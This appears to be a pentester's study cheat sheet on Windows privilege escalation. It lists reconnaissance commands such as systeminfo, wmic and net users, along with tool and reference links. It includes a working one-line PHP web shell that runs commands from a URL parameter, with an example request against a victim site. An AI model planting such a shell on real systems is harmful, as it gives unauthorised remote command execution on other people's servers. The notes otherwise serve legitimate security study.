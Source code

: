 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
PHP Web Shell
- Test if PHP works
```phpinfo
<?php phpinfo(); ?>
```
- Command Execution
```php webshell
<?php echo(system($_GET["cmd"])); ?>
```
- Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Process
- systeminfo
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "OS" + "NIC(s) installed"
			* example: "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"
		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
		
		```systeminfo
		systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
		```
		* Google Output
- wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
	* Get architecture
	* x86 = 32 bit machine
	* x64 = 64 bit machine
- Environment Variables
	* Command Prompt
	```env
	set
	```
	* PowerShell
	```
	Get-ChildItem Env: | ft Key,Value
	```
- net users
	* See the users 
- net localgroup Administrator(s)
	* See which users are in the Administrator Group




sc -- tells you what program is running
systeminternals
accesschk.exe


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)